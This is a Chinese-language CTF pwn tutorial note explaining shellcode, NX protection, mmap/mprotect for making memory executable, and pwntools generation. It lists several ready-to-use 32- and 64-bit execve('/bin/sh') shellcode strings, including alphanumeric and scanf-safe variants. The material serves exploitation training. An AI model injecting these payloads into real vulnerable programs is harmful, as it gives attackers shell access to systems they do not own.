 # shellcode
## 什么是shellcode
shellcode通常是指一段汇编代码，在执行后可以让我们来获取shell或者直接cat flag

## 什么时候可以用shellcode
### NX
通常而言，一般的题目都会打开NX保护，即栈不可执行，如下图
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250721170343.png)
可以看到栈(stack)部分是没有执行(x)的权限的，有执行权限的部分也没有写(w)的权限，这种情况下就无法注入shellcode来获取shell。
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250721170530.png)
可以看到同样的代码中如果关闭NX保护，栈部分就有可执行权限，这种情况下就可以注入shellcode来执行。

### mmap
`void *mmap(void *addr, size_t length, int prot, int flags, int fd, off_t offset);`
mmap函数是一个强大的系统调用，用于创建内存映射。它在内存管理、文件I/O和进程间通信中有广泛应用。
通常来说，在pwn题里，mmap函数用于改变一段地址的权限，通常出现在shellcode类型的题目中来改变某一段地址让其有rwx的权限来供攻击者来注入shellcode获取shell。
相同类型的函数还有mprotect等。

## 如何生成shellcode
pwntools集合了一个自动生产shellcode的函数
```
context(arch='i386', os='linux', log_level='debug')
shellcode = asm(shellcraft.sh())
```
用context.arch来设定需要生成shellcode是32位还是64位，即可自动生成一段shellcode
### 常见shellcode
```
32位 短字节shellcode --> 21字节
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80

32位 纯ascii字符shellcode
PYIIIIIIIIIIQZVTX30VX4AP0A3HH0A00ABAABTAAQ2AB2BB0BBXP8ACJJISZTK1HMIQBSVCX6MU3K9M7CXVOSC3XS0BHVOBBE9RNLIJC62ZH5X5PS0C0FOE22I2NFOSCRHEP0WQCK9KQ8MK0AA

32位 scanf可读取的shellcode
\xeb\x1b\x5e\x89\xf3\x89\xf7\x83\xc7\x07\x29\xc0\xaa\x89\xf9\x89\xf0\xab\x89\xfa\x29\xc0\xab\xb0\x08\x04\x03\xcd\x80\xe8\xe0\xff\xff\xff/bin/sh

64位 scanf可读取的shellcode 22字节
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05

64位 较短的shellcode  23字节
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05

64位 纯ascii字符shellcode
Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t

asm(shellcraft.sh())
```



